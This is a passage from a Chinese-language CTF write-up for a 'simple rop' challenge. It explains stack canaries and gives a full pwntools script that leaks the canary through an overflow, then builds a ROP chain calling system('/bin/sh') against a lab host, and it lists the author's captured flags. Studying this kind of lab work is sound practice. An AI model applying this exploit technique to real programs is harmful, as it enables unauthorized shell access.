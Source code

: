 ```python
p.interactive()

# flag是动态生成的，每个人flag都不一样
# 我的flag：vmc{OuzvGCiO0fXMgwEM8H7sAnTcQ6o2SY90}
```

# 第35题、`简单rop`分析及解决方案
## **栈保护的原理**：  
栈保护（Stack Canary）是一种防御机制，用于防止基于栈的缓冲区溢出攻击。它的核心原理是在函数调用栈的缓冲区和返回地址之间插入一个称为 "canary" 的随机值。函数执行时，若攻击者试图溢出缓冲区以覆盖返回地址，通常会改变 canary 值。在函数返回前，程序会检查 canary 是否被修改，如果被修改，则会终止程序执行以防止攻击。

---

## **解题思路**：  
本题需要绕过栈保护机制。程序通过 `read` 函数提供了两次输入机会，分别用于泄露栈保护值和构造 ROP 链。具体步骤如下：  

1. **泄露栈保护值**：  
   栈保护的 cookie 值通常以 `\x00` 结尾，由于栈是以小端字节序存储数据，因此 `char s[40]` 中高位的字节正好会接触到 cookie 的第一个字节 `\x00`。因此，在第一次输入时，通过填充 41 个字符覆盖 `char s[40]`，使得栈保护的 cookie 值在后续的 `printf("%s", s)` 中被打印出来。这样，我们就能够泄露出 canary 值，并在后续利用中使用它。

2. **构造 ROP 链**：  
   第二次输入，通过缓冲区溢出构造一个 ROP 链。在此过程中将泄露的 cookie 值填入栈保护的位置，以绕过栈保护检查。并通过 `pop rdi` 设置 `/bin/sh` 的地址，随后调用 `system("/bin/sh")` 打开一个 bash shell，最终读取 flag 文件。  

## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10692
p = remote(host, port)

pop_rdi = 0x4011DE
sh_addr = 0x404058
call_sys = 0x40127E

payload = cyclic(40)
p.sendlineafter(b'Rush B!!!\n', payload)
p.recvuntil(b"\n")
canary = u64(p.recv()[:7].rjust(8, b'\0'))

payload = cyclic(40)
payload += p64(canary)
payload += cyclic(8)
payload += p64(pop_rdi)
payload += p64(sh_addr)
payload += p64(call_sys)
p.sendline(payload)
p.interactive()

# flag是动态生成的，每个人flag都不一样
# 我的flag：vmc{onlCQIt2L5ifvuspW2wX3SWDxkzetQf9}
```
